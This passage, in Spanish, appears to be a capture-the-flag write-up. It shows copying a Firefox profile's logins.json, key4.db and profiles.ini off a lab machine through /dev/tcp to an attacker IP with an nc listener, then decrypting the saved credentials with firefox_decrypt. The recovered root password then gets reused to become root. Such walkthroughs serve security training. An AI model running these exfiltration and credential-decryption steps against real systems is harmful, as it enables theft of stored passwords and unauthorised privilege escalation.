
Vemos varios archivos interesantes en este perfil.
```console
[elliot@insanityhosting esmhp32w.default-default]$ ls -la
total 11784
drwx------. 8 elliot elliot    4096 Aug 16  2020 .
drwx------. 4 elliot elliot     102 Aug 16  2020 ..
-rw-------. 1 elliot elliot      45 Aug 16  2020 addons.json
-rw-------. 1 elliot elliot   32349 Aug 16  2020 addonStartup.json.lz4
-rw-rw-r--. 1 elliot elliot       0 Aug 16  2020 AlternateServices.txt
drwx------. 2 elliot elliot       6 Aug 16  2020 bookmarkbackups
-rw-------. 1 elliot elliot     204 Aug 16  2020 broadcast-listeners.json
-rw-------. 1 elliot elliot  229376 Aug 16  2020 cert9.db
-rw-------. 1 elliot elliot     398 Aug 16  2020 cert_override.txt
-rw-------. 1 elliot elliot     167 Aug 16  2020 compatibility.ini
-rw-------. 1 elliot elliot     939 Aug 16  2020 containers.json
-rw-r--r--. 1 elliot elliot  229376 Aug 16  2020 content-prefs.sqlite
-rw-r--r--. 1 elliot elliot  524288 Aug 16  2020 cookies.sqlite
drwx------. 3 elliot elliot      66 Aug 16  2020 datareporting
-rw-------. 1 elliot elliot    1302 Aug 16  2020 extension-preferences.json
drwx------. 2 elliot elliot    8192 Aug 16  2020 extensions
-rw-------. 1 elliot elliot  360103 Aug 16  2020 extensions.json
-rw-r--r--. 1 elliot elliot 5242880 Aug 16  2020 favicons.sqlite
-rw-------. 1 elliot elliot     560 Aug 16  2020 handlers.json
-rw-------. 1 elliot elliot  294912 Aug 16  2020 key4.db
-rw-------. 1 elliot elliot     575 Aug 16  2020 logins.json
-rw-------. 1 elliot elliot      30 Aug 16  2020 notificationstore.json
-rw-rw-r--. 1 elliot elliot       0 Aug 16  2020 .parentlock
-rw-r--r--. 1 elliot elliot   98304 Aug 16  2020 permissions.sqlite
-rw-------. 1 elliot elliot     478 Aug 16  2020 pkcs11.txt
-rw-r--r--. 1 elliot elliot 5242880 Aug 16  2020 places.sqlite
-rw-------. 1 elliot elliot   14957 Aug 16  2020 prefs.js
drwx------. 2 elliot elliot    4096 Aug 16  2020 saved-telemetry-pings
-rw-------. 1 elliot elliot    2552 Aug 16  2020 search.json.mozlz4
-rw-rw-r--. 1 elliot elliot       0 Aug 16  2020 SecurityPreloadState.txt
-rw-------. 1 elliot elliot     288 Aug 16  2020 sessionCheckpoints.json
drwx------. 2 elliot elliot      68 Aug 16  2020 sessionstore-backups
-rw-------. 1 elliot elliot    3520 Aug 16  2020 sessionstore.jsonlz4
-rw-rw-r--. 1 elliot elliot     702 Aug 16  2020 SiteSecurityServiceState.txt
drwxr-xr-x. 3 elliot elliot      23 Aug 16  2020 storage
-rw-r--r--. 1 elliot elliot     512 Aug 16  2020 storage.sqlite
-rw-------. 1 elliot elliot      50 Aug 16  2020 times.json
-rw-rw-r--. 1 elliot elliot       0 Aug 16  2020 TRRBlacklist.txt
-rw-r--r--. 1 elliot elliot   98304 Aug 16  2020 webappsstore.sqlite
-rw-------. 1 elliot elliot     139 Aug 16  2020 xulstore.json
```

Los que mas nos interesan son`cookies.sqlite`, `key4.db` y `logins.json`

[Según el propio soporte de Firefox](https://support.mozilla.org/en-US/questions/1310179), tenemos el archivo `logins.json` que son las credenciales almacenadas encriptadas, y también tenemos un archivo `key4.db` el cual contiene la clave utilizada para encriptar estos combos, por lo cual nos lo vamos a copiar a nuestra máquina.

Para ello podemos ponernos en escucha con `nc` por el puerto 8081 en nuestra máquina atacante.
```console
nc -lvnp 8081 > logins.json
listening on [any] 8081 ...
```

De esta forma podemos transferir el archivo.
```console
[elliot@insanityhosting esmhp32w.default-default]$ cat logins.json > /dev/tcp/192.168.45.167/8081
```

Luego podemos comprobar el hash MD5 de los archivos para ver que coincide y que el archivo no ha perdido su integridad.
```console
[elliot@insanityhosting esmhp32w.default-default]$ md5sum logins.json
f448760874a5af222695b7dd53143c99  logins.json
```

Y vemos que en nuestra máquina coincide.
```console
md5sum logins.json
f448760874a5af222695b7dd53143c99  logins.json
```

Hacemos lo mismo para el archivo `key4.db`
```console
cat key4.db > /dev/tcp/192.168.45.167/8081
```

## Decrypting Firefox stored credentials && Abusing password Reuse
Y ya tenemos los archivos que queríamos, `key4.db` y el `logins.json`, ahora podemos utilizar [esta herramienta](https://github.com/unode/firefox_decrypt) para desencriptar las credenciales de `logins.json`.

Para usar esta herramienta vemos que nos pide un archivo `profile.ini` que realmente es una errata y es el `profiles.ini` de firefox.
```console
python3 firefox_decrypt.py ./
2025-01-30 04:40:20,898 - WARNING - profile.ini not found in ./
2025-01-30 04:40:20,898 - WARNING - Continuing and assuming './' is a profile location
2025-01-30 04:40:20,899 - ERROR - Couldn't initialize NSS, maybe './' is not a valid profile?
```

En la máquina víctima, retrocedemos un directorio y nos transmitimos este archivo.
```console
[elliot@insanityhosting firefox]$ cat profiles.ini > /dev/tcp/192.168.45.167/8081
```

Ahora con `firefox_decrypt.py` vemos que intenta buscar estos archivos en un directorio llamado como el perfil.
```console
python3 firefox_decrypt.py ./
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2
2025-01-30 04:40:31,206 - ERROR - Profile location './esmhp32w.default-default' is not a directory. Has profiles.ini been tampered with?
```

Vamos a la máquina víctima y vamos a crear un comprimido con todo el contenido del directorio del perfil que queremos.
```console
tar -cvf profile.tar.gz esmhp32w.default-default/
```

Nos transmitimos este archivo a nuestra máquina víctima.
```console
cat profile.tar-gz > /dev/tcp/192.168.45.167/8081
```

Ahora en nuestra máquina, extraemos este comprimido.
```console
tar -xvf profile.tar.gz
```

Y ahora sí que podemos utilizar el script, seleccionar el perfil y ver las credenciales desencriptadas.
```console
python3 firefox_decrypt.py ./
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'
```

¿Podríamos haber subido este script a la máquina víctima y hacer este proceso de una forma mas fácil? Sí, efectivamente, pero aquí nos gusta complicarnos la vida porque no somos lammers.

Con la una única credencial encontrada podemos migrar al usuario `root` en la máquina víctima.
```console
[elliot@insanityhosting firefox]$ su root
Password:
[root@insanityhosting firefox]# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos ver la flag de `root`
```console
[root@insanityhosting ~]# cat proof.txt
311c3a3bb29b7e...
```

¡Y ya estaría!

Happy Hacking! 🚀